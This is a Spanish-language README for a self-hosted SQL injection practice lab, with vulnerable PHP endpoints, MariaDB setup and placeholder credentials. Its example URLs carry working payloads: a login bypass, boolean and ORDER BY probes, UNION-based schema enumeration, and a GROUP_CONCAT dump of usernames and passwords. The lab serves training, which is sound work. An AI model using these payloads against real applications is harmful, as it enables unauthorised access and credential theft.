



# 🧪 RedTeamLab SQLi (Local Web Lab)


Mini laboratorio **educativo y local** para practicar **SQL Injection** de forma manual (estilo pentesting):
- **SQLi Authentication Bypass** (login)
- **SQLi clásica + Boolean-based + UNION-based + GROUP_CONCAT** (searchUsers)

> ⚠️ **Uso exclusivo en entorno local / autorizado.**  
> No utilizar contra sistemas reales sin permiso explícito.

---

## 📌 Endpoints

### 1) Login vulnerable (SQLi Bypass)
- `lab/vuln/login.php`

Ejemplos:
- Login válido:
  - `http://localhost/lab/vuln/login.php?user=admin&pass=admin123`
- Login inválido:
  - `http://localhost/lab/vuln/login.php?user=admin&pass=wrong`
- **Bypass (PoC)**:
  - `http://localhost/lab/vuln/login.php?user=admin'%20--%20-&pass=x`

---

### 2) searchUsers vulnerable (SQLi clásica)
- `lab/vuln/searchUsers_RTLab.php`

Ejemplos:
- Normal:
  - `http://localhost/lab/vuln/searchUsers_RTLab.php?id=1`
- Boolean-based:
  - `http://localhost/lab/vuln/searchUsers_RTLab.php?id=1'%20AND%201=1%20--%20-`
  - `http://localhost/lab/vuln/searchUsers_RTLab.php?id=1'%20AND%201=2%20--%20-`
- ORDER BY:
  - `http://localhost/lab/vuln/searchUsers_RTLab.php?id=1'%20ORDER%20BY%201%20--%20-`
  - `http://localhost/lab/vuln/searchUsers_RTLab.php?id=1'%20ORDER%20BY%202%20--%20-`
- UNION (PoC):
  - `http://localhost/lab/vuln/searchUsers_RTLab.php?id=-1'%20UNION%20SELECT%201%20--%20-`
- Enumeración columnas (1 output → `GROUP_CONCAT`):
  - `http://localhost/lab/vuln/searchUsers_RTLab.php?id=-1'%20UNION%20SELECT%20GROUP_CONCAT(column_name)%20FROM%20information_schema.columns%20WHERE%20table_schema='RedTeamLab'%20AND%20table_name='users'%20--%20-`
- Dump final (1 output → concatenación):
  - `http://localhost/lab/vuln/searchUsers_RTLab.php?id=-1'%20UNION%20SELECT%20GROUP_CONCAT(username,':',password,':',role%20SEPARATOR%20'%20|%20')%20FROM%20users%20--%20-`

---

## 🗄️ Base de datos (MariaDB)

Nombre: `RedTeamLab`

### Script de creación
Ejecutar en MariaDB (como root):

```sql
CREATE DATABASE IF NOT EXISTS RedTeamLab;

CREATE USER IF NOT EXISTS 'rtlab'@'localhost' IDENTIFIED BY 'rtlab123!';
GRANT ALL PRIVILEGES ON RedTeamLab.* TO 'rtlab'@'localhost';
FLUSH PRIVILEGES;

USE RedTeamLab;

DROP TABLE IF EXISTS users;
CREATE TABLE users (
  id INT AUTO_INCREMENT PRIMARY KEY,
  username VARCHAR(50) NOT NULL,
  password VARCHAR(50) NOT NULL,
  role VARCHAR(20) NOT NULL DEFAULT 'user'
);

INSERT INTO users (username, password, role) VALUES
('admin', 'admin123', 'admin'),
('pablo', 'pablo123', 'user'),
('vanessa', 'vanessa123', 'user');
```
## 🔐 Nota
Las credenciales y los datos utilizados en este proyecto son **exclusivamente para laboratorio local y fines educativos**.

---

## 🚀 Instalación local (Apache + PHP + MariaDB)

### Requisitos (Debian / Parrot)
- `apache2`
- `php` + `php-fpm`
- `mariadb-server`

### Pasos generales
1. Copiar la carpeta `lab/` a:
   ```bash
   /var/www/html/lab/vuln/
   ```
2. Asegurar que **Apache** y **PHP-FPM** estén activos.
3. Crear la base de datos ejecutando el script proporcionado en este repositorio.
4. Abrir en el navegador:
    ```html
    http://localhost/lab/
    ```
---

## 📸 Capturas del laboratorio

A continuación se muestran algunas capturas representativas del laboratorio **RedTeamLab SQLi**, donde se observa el flujo completo de explotación.

---

### 🧭 Vista general del laboratorio
Página principal del lab con los distintos endpoints vulnerables y pruebas disponibles.



---

### 🔓 SQL Injection – Authentication Bypass (Login)
Bypass de autenticación explotando una **SQL Injection** en el endpoint `login.php`, permitiendo el acceso sin conocer la contraseña del usuario.



---

### 🗄️ SQL Injection – Exfiltración de datos (UNION + GROUP_CONCAT)
Exfiltración completa de credenciales y roles desde la base de datos mediante **SQLi UNION-based**, adaptando la explotación a una sola columna de salida.



---

> ⚠️ Todas las pruebas se han realizado en un **entorno local y controlado**, con fines educativos.

---

## 👤 Autor
**Creado por:** Enrique Forte *(aka qu1qu3h4ck)*  

- 🔗 LinkedIn: https://www.linkedin.com/in/enriqueforte  
- 💻 GitHub: https://github.com/enriqueforte  
- 🌐 Portfolio: https://enriqueforte.web.app/


